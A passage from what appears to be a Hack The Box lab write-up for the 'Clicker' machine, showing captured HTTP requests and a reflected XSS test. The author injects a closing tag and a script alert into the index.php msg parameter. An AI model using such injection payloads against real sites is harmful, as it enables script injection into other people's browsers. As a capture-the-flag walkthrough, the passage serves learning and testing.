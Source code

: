 ```
GET /save_game.php?clicks=1&level=1 HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=40coq22jkmdko0gjqi56v4jg73
Upgrade-Insecure-Requests: 1
```

After passing this request I am sent back to the front screen with a parameter passed message. I try to inject some html to test for XSS.

```
GET /index.php?msg=Game%20has%20been%20saved!</h5><script>alert(1)</script> HTTP/1.1
Host: clicker.ht
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=05
Accept-Encoding: gzip, deflate
Referer: http://clicker.htb/play.php
DNT: 1
Connection: close
Cookie: PHPSESSID=40coq22jkmdko0gjqi56v4jg73
Upgrade-Insecure-Requests: 1
```

![alert xss front page](/img/clicker/clicker_alert_1.png)
